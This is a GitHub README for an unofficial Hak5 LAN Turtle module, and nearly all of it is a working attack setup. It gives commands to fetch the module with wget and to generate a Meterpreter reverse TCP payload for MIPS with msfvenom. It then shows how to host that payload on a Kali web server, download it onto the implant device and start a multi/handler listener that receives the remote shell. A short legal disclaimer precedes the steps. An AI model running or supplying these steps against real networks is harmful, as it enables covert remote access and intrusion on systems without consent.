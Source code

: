 ## Unofficial custom Hak5 LAN Turtle Module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use of this module, remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - On LAN Turtle: download module from github**<br />
`wget https://raw.githubusercontent.com/ATTACKnDEFEND/LanTurtle/main/meterpreter-mipsbe-reverse-tcp -O
meterpreter-mipsbe-reverse-tcp`
`mv meterpreter-mipsbe-reverse-tcp /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />

**3 - On Kali: generate Meterpreter payload with Msfvenom**<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > meterpreter-mipsbe-reverse-tcp`<br />
`sudo cp meterpreter-mipsbe-reverse-tcp /var/www/html/meterpreter-mipsbe-reverse-tcp`<br />

**4 - On LAN Turtle: transfer Meterpreter payload**<br />
`wget <KALI IP>/meterpreter-mipsbe-reverse-tcp -O /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />
`chmod 755 /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />

**5 - On Kali: start Meterpreter listerner**<br />
`sudo msfconsole -q -x "use exploit/multi/handler;set payload linux/mipsbe/meterpreter_reverse_tcp;set lhost <LHOST>;set LPORT <LPORT>;exploit -j"`<br />







